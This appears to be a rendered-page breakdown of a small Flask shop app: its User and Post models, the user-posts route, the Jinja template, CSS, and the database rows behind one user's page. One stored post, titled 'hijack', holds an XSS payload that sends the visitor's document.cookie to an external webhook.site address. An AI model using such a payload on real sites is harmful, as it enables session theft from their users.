
Screenshot of /user/hacker1 with the database file from the repository.
### flaskshop/models.py (models this page shows, shortened)
class User(db.Model, UserMixin):
    id = db.Column(db.Integer, primary_key=True, autoincrement=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    image_file = db.Column(db.String(20), nullable=False, default='default.jpg')
    password = db.Column(db.String(60), nullable=False)
    posts = db.relationship('Post', backref='author', lazy=True)
    cart_details = db.relationship('Cart', backref='owner', lazy=True)
    contact_us = db.relationship('ContactUs', backref='author', lazy=True)
    admin_rights = db.Column(db.Boolean, unique=False, default=False)

class Post(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    title = db.Column(db.String(100), nullable=False)
    date_posted = db.Column(db.DateTime, nullable=False, default=datetime.utcnow)
    content = db.Column(db.Text, nullable=False)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)

### flaskshop/routes.py (the view)
@app.route("/user/<string:username>")
def user_posts(username):
    page = request.args.get('page', 1, type=int)
    user = User.query.filter_by(username=username).first_or_404()
    posts = Post.query.filter_by(author=user)\
        .order_by(Post.date_posted.desc())\
        .paginate(page=page, per_page=5)
    return render_template('user_posts.html', posts=posts, user=user)

### flaskshop/templates/user_posts.html
{% extends "layout.html" %}
{% block content %}
    <h1 class="mb-3">Posts by {{ user.username }} ({{ posts.total }})</h1>
    {% for post in posts.items %}
        <article class="media content-section">
          <img class="rounded-circle article-img" src="{{ url_for('static', filename='profile_pics/' + post.author.image_file) }}">
          <div class="media-body">
            <div class="article-metadata">
              <a class="mr-2" href="{{ url_for('user_posts', username=post.author.username) }}">{{ post.author.username }}</a>
              <small class="text-muted">{{ post.date_posted.strftime('%Y-%m-%d') }}</small>
            </div>
            <h2><a class="article-title" href="{{ url_for('post', post_id=post.id) }}">{{ post.title }}</a></h2>
            <p class="article-content">{{ post.content }}</p>
          </div>
        </article>
    {% endfor %}
    {% for page_num in posts.iter_pages(left_edge=1, right_edge=1, left_current=1, right_current=2) %}
      {% if page_num %}
        {% if posts.page == page_num %}
          <a class="btn btn-info mb-4" href="{{ url_for('user_posts', username=user.username, page=page_num) }}">{{ page_num }}</a>
        {% else %}
          <a class="btn btn-outline-info mb-4" href="{{ url_for('user_posts', username=user.username, page=page_num) }}">{{ page_num }}</a>
        {% endif %}
      {% else %}
        ...
      {% endif %}
    {% endfor %}
{% endblock content %}

### flaskshop/static/main.css (style rules this page uses)
body { background: #fafafa; color: #333333; margin-top: 5rem; }
h1, h2, h3, h4, h5, h6 { color: #444444; }
.content-section { background: #ffffff; padding: 10px 20px; border: 1px solid #dddddd; border-radius: 3px; margin-bottom: 20px; }
.article-title { color: #444444; }
.article-content { white-space: pre-line; }
.article-img { height: 65px; width: 65px; margin-right: 16px; }
.article-metadata { padding-bottom: 1px; margin-bottom: 4px; border-bottom: 1px solid #e3e3e3 }

### rows the page displays
User: username "hacker1"
Post: image_file (picture), author.username "hacker1", date_posted "2020-07-01", title "hijack", content "<img src=https://github.com/favicon.ico width=0 height=0 onload=this.src='https://webhook.site/7b155317-5519-474d-adad-5eb00b9cbadc?cookie'+document.cookie>"

### other values shown
{{ posts.total }} "1"
{{ page_num }} "1"
